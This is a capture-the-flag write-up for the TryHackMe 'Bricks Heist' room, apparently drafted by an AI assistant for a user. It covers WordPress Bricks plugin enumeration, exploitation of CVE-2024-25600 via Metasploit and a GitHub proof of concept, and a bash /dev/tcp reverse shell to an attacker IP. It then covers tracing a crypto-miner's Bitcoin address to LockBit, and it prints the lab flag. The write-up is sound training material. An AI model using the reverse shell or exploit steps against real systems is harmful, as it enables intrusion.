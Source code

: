 Nice — got it. Here’s a copy-paste-ready writeup written from your perspective, in the style you asked for, for **TryHackMe - Bricks Heist**. No fluff, no made-up steps, handle included.

---

# TryHackMe — Bricks Heist — Writeup

**Author:** `Rat5ak`
**Box:** TryHackMe - Bricks Heist

---

## TL;DR

* Found WordPress + Bricks 1.9.5 via service/enum.
* Used Metasploit to exploit Bricks and grabbed the first flag from the webroot. Meterpreter shell was shit for further work.
* Switched to a public PoC from GitHub (CVE-2024-25600) and got a proper reverse shell via `nc` + `bash -c 'exec bash -i &>/dev/tcp/10.4.81.150/666 <&1'`.
* Found a miner process masquerading around NetworkManager and a suspicious encoded string in `/lib/NetworkManager/inet.conf`.
* Decoded that long string in CyberChef (base64 + cleanup) and it produced a Bech32 BTC address: `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`.
* Traced money flow to `32pTjxTNi7snk8sodrgfmdKao3DEn1nVJM` and, via Google, linked it to LockBit.
* User/web flag: `THM{fl46_650c844110baced87e1606453b93f22a}`

---

## Recon

Step 1 — The noisy nmap:
I started with the usual aggressive scans to see everything:

```
nmap -A -p- -vv <target> -oA bricks-scan
```

Output showed a webserver running WordPress and the Bricks plugin — version 1.9.5 popped up from service banners / enumeration.

Step 2 — WordPress enumeration:
I ran a WordPress enumeration tool (the usual WP enum/WPScan style checks) to confirm plugin versions and surface the vulnerable Bricks instance. That confirmed Bricks 1.9.5 — bingo.

---

## Exploit — how I popped it

Step 3 — Metasploit for initial access:
I fired up `msfconsole`, used the Bricks exploit module and got a session. From that MSF session I grabbed the first flag sitting in the webroot:

```
cat /data/www/default/650c844110baced87e1606453b93f22a.txt
# THM{fl46_650c844110baced87e1606453b93f22a}
```

Step 4 — Meterpreter was annoying:
Meterpreter dropped, but it was awkward for post-exploitation (couldn’t spawn a clean interactive reverse shell that behaved). Metasploit’s shell was fucky and I couldn’t move on comfortably from it.

Step 5 — switch to public PoC + proper shell:
Found this PoC and README on GitHub and used it to get a normal shell:
`https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/blob/main/README.md`

Then spun up a netcat listener locally and ran this from the box to get a usable reverse shell:

```bash
# on my machine
nc -lvnp 666

# on target (from a proper shell)
bash -c 'exec bash -i &>/dev/tcp/10.4.81.150/666 <&1'
```

That gave me a proper interactive shell (no bs meterpreter weirdness).

---

## Post-exploitation — what I found

Step 6 — suspicious processes:
From the shell I started poking around and noticed processes oddly named around NetworkManager:

```
ps aux | egrep -i 'nm-inet-dialog|nm-inet' | grep -v grep
# showed /lib/NetworkManager/nm-inet-dialog running (multiple PIDs)
```

Step 7 — look at the NetworkManager bits:
I inspected `/lib/NetworkManager` and found `inet.conf`. It contained a long encoded-ish ID string and lots of logging lines that repeatedly printed `[*] Miner()` / `[*] Bitcoin Miner Thread Started` — clearly something mining.

```
/lib/NetworkManager/inet.conf
# contains a long encoded string and many "Miner()" log lines
```

Step 8 — decode the long string:
I copied that long encoded string (the blob in `inet.conf`) into CyberChef, used the magic/Auto-Decode and did a base64 decode + filtered non-alphabetic junk. The result produced a Bech32 BTC address:

```
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```
---

## Attribution

Step 9 — follow the money / google:
I took the decoded address and tracked transactions. One of the larger receivers in the flow was:

```
32pTjxTNi7snk8sodrgfmdKao3DEn1nVJM
```

Googling that receiver (and related transaction patterns) returned hits linking it to LockBit activity. That was enough for me to say the miner / funds were associated with LockBit.

---

## Artifacts & important files

* User/web flag: `/data/www/default/650c844110baced87e1606453b93f22a.txt` → `THM{fl46_650c844110baced87e1606453b93f22a}`
* Encoded miner blob: `/lib/NetworkManager/inet.conf` (decoded in CyberChef → `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`)
* PoC used to get a usable shell: `https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/blob/main/README.md`
* Reverse shell used: `bash -c 'exec bash -i &>/dev/tcp/10.4.81.150/666 <&1'`

---

## Flow summary 

1. nmap the box (no shame) → saw WordPress + Bricks 1.9.5.
2. WP enumeration to confirm the vulnerable plugin.
3. Exploit with Metasploit and get an initial session, pull the web/user flag.
4. Meterpreter shell is awkward — switch to a public PoC for CVE-2024-25600.
5. Launch `nc` listener and get a clean reverse shell with the `bash -c 'exec...'` line.
6. Inspect processes → noticed `nm-inet-dialog` / mining noise.
7. Open `/lib/NetworkManager/inet.conf`, copy the long encoded string, decode in CyberChef (base64 + cleanup) → get `bc1qyk79...`.
8. Trace funds → `32pTjxT...` → google → linked to LockBit.


